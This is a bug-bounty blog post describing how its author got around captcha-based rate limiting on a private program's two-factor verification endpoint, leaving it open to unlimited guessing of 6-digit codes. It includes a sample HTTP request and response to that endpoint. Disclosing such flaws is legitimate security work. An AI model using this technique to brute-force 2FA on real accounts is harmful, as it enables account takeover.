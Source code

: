 ```yaml
---
date: 2020-06-20 22:55:45
layout: post
title: 2FA Bypass
description: 2fa bypass in a private program
image: https://i.ibb.co/pftczhd/2fa-bypass.png
optimized_image: https://i.ibb.co/pftczhd/2fa-bypass.png
category: BugBounty
tags:
  - bughunting
  - bugbounty
  - webapp
author: shivangx01b
---
```


## How I bypassed 2fa in a 3 years old private program!

When I was invited to this private program say "private.com" I was bit discouraged as it was 3 years old program with only 3 eligible scope and many hackers must have hammered it hard and  I thought that finding a bug here is just a waste of time.

But any way I started IDK why ...FFF..

![Alt Text](https://i.ibb.co/s1XLQtp/idk.gif)

So after doing some dirsearch I found 2 open redirects in like ~ 3 mins...But got a duplicate when I submitted the report.

Then I jumped to app.private.com to try some auth flaws and with a hope that no one looked here even though it's a 3 year old program...just in case ?

![Alt Text](https://media.giphy.com/media/8GclDP2l4qbx6/giphy.gif)

After trying many things I decided to try some rate limit checks on login and 2fa things ...Both login and 2fa where protected from google captcha :/

So I tried to remove the header which was checking the captcha from the request just to see if there is not client side checks but login blocked me with "Invalid Captcha"...But 2fa didn't and I was able to send any many 6 digits code as I want to !

- Request with not google captcha headers

```
POST /2fa/verify HTTP/1.1
Host: api.private.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: application/json, text/plain, */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Authorization: Bearer ff72216846ff4f858ab16f31a9b0eb0f765a4XXXXXXXXXXX3
Content-Length: 17
Origin: https://app.private.com
Connection: close
Referer: https://app.private.com

{"code":"123456"}
```
- Response 

```
HTTP/1.1 401 Unauthorized
Date: Thu, 18 Jun 2020 06:08:12 GMT
Content-Type: application/json
Content-Length: 36
Connection: close
Access-Control-Allow-Origin: https://app.private.io
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, PATCH, OPTIONS
Access-Control-Allow-Credentials: true

{"message":"Wrong code! Try again."}
```

![Alt Text](https://media.giphy.com/media/DffShiJ47fPqM/giphy.gif)



